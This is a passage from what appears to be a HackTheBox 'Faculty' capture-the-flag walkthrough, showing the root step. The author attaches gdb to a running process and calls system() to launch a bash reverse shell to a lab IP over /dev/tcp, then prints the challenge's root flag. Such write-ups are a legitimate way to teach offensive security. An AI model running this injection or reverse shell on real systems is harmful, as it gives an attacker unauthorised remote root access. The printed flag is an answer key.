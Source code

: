 
```bash
bash-5.0$ gdb -p 665
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.                                                                                                                                      
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
Attaching to process 665
[New LWP 685]
[New LWP 686]
[New LWP 689]
0x00007ffa9c1f599f in ?? ()

call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.14.168/5454 0>&1'")
```

Obviously, create your netcat listener on your machine, then get the flag. If having isses with the system symbol, a safe choice is the python3 process.

<p align="center">
  <img src="/images/walkthroughs/hackthebox/faculty/11_root.png" width="90%"/>
</p>

``` 9d6d066b09f6f7e38a70085112861ffe ```